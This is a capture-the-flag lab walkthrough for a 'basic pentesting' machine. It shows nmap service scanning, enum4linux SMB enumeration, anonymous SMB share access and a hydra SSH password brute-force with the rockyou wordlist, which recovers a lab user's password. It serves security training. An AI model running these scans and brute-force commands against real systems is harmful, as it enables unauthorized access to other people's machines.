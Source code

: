 #### basic pentesting 

export IP: 10.10.35.77

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration


The main goal here is to learn as much as possible. Make sure you are connected to our network using your OpenVPN configuration file.

Credits to Josiah Pierce from Vulnhub.

Deploy the machine and connect to our network

Find the services exposed by the machine

- use nmap to scan for available ports
```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/basic_pentesting]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.35.77 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 00:57 EDT
Nmap scan report for 10.10.35.77
Host is up (0.35s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-15T04:58:20
|_  start_date: N/A
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2022-08-15T00:58:20-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.30 seconds

```


What is the name of the hidden directory on the web server(enter name without /)?
Ans. development


Use brute-forcing to find the username & password
-Used enum4linux for discovering SMB shares and hopefully to look for passwords also:

```
enum4linux -a 10.10.35.77 -o smb_enum.txt
```


What is the username?
Ans. Jan

```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)


```

What is the password?
Ans. armando

┌──(kali㉿kali)-[~/ken/MoonShine/CTF/basic_pentesting]
└─$ smbclient //10.10.40.174/anonymous
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.40.174\anonymous\
smb: \> dir
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018
get star
                14318640 blocks of size 1024. 11093576 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> 

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/basic_pentesting]
└─$ hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.40.174 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-15 03:17:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.40.174:22/
[STATUS] 128.00 tries/min, 128 tries in 00:01h, 14344273 to do in 1867:45h, 14 active
[STATUS] 98.67 tries/min, 296 tries in 00:03h, 14344105 to do in 2422:60h, 14 active
[STATUS] 92.29 tries/min, 646 tries in 00:07h, 14343755 to do in 2590:28h, 14 active
[22][ssh] host: 10.10.40.174   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-15 03:26:26
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/basic_pentesting]
└─$ 

```



```


